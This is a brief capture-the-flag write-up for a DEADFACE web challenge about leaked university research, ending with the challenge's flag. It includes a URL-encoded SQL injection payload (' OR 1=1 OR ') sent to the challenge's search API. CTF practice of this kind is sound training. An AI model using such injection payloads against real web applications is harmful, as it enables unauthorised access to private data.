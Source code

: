 > [!abstract] Challenge Description
> > @syyntax
> ## 60
> NVU had confidential research data that was compromised by DEADFACE and leaked to the public. NVU insists that their confidential data was safeguarded and only provided to authorized users on the web app. See if you can identify the flag associated with the classified research present on the web application.
> 
> Submit the flag as `deadface{flag text}`.
> 
> [http://env01.deadface.io:8080](http://env01.deadface.io:8080/)

The research projects says that search will reveal information. Using the same query as [[+ Not-So-Public Domain]] but swapping it out for research gives the flag.

http://env01.deadface.io:8080/api/search.php?q=%27%20OR%201=1%20OR%20%27&type=research

---
> [!success] Flag: `deadface{cl4ss1f13d_r3s34rch_unh4ck4bl3}`
